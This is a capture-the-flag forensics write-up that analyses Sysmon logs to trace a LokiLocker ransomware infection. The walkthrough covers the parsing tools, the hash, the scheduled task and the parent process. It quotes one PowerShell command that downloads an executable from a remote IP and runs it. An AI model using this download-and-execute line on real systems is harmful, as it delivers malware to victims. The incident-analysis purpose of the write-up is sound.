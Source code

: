 ## Forensics - Valhalloween

### Description
As I was walking the neighbor's streets for some Trick-or-Treat, a strange man approached me, saying he was dressed as "The God of Mischief!". He handed me some candy and disappeared. Among the candy bars was a USB in disguise, and when I plugged it into my computer, all my files were corrupted! First, spawn the haunted Docker instance and connect to it! Dig through the horrors that lie in the given Logs and answer whatever questions are asked of you!

### Sysmon Analysis
For this challenge we are given some Windows Event Logs. For dealing with `.evtx` files on Linux we can use an [EVTX Parser](https://github.com/Velocidex/evtx). We are only interested in the Sysmon logs so
```bash
./dumpevtx parse Microsoft-Windows-Sysmon%4Operational.evtx > sysmon.log
```
Alternatively, we can also use Chainsaw to quickly hunt for Windows Artifacts:
```bash
./chainsaw hunt Logs/ -s sigma_rules/ --mapping mappings/sigma-event-logs-all.yml
```
Now we can more easily search through the event log. Let's connect to the docker instance and try to answer some questions.
```
What are the IP address and port of the server from which the malicious actors downloaded the ransomware? (for example: 98.76.54.32:443)
```
Because we need to find where the ransomware came from, we can search for the string `http://`. In one of the results we can see that a command has been triggered:
```
c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%%temp%%\\mscalc.exe');start-process '%%temp%%\\mscalc.exe'
```
This reveals that the ransomwhere was downloaded from `103.162.14.116:8888`.
```
According to the sysmon logs, what is the MD5 hash of the ransomware? (for example: 6ab0e507bcc2fad463959aa8be2d782f)
```
From the issued command, a process is started with the name `mscalc.exe`. To find where this program has been launched we can look for this name in the Image field of the logs. Then looking at the Hashes field, we can find the MD5 hash to be `B94F3FF666D9781CB69088658CD53772`.
```
Based on the hash found, determine the family label of the ransomware in the wild from online reports such as Virus Total, Hybrid Analysis, etc. (for example: wannacry)
```
A quick search on VirusTotal shows that we are dealing with the `LokiLocker` ransomwhere.
```
What is the name of the task scheduled by the ransomware? (for example: WindowsUpdater)
```
Seaching for `schtasks` we can again find that a command has been run. This command shedules an ONLOGON task with the name `Loki`.
```
What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)
```
We can look for when the process is started by searching for `start-process`. The first Event that runs the malicious program executes it via `powershell.exe` with a process ID of `3856`.
```
Following the PPID, provide the file path of the initial stage in the infection chain. (for example: D:\Data\KCorp\FirstStage.pdf)
```
Following the PPID we find that the command is issued inside the `C:\Users\HoaGay\Documents\Subjects` folder. Searching for this directory we can find all the documents that were opend by this user. After opening the document `C:\Users\HoaGay\Documents\Subjects\Unexpe.docx` we see that the initial download stage begins.
```
When was the first file in the infection chain opened (in UTC)? (for example: 1975-04-30_12:34:56)
```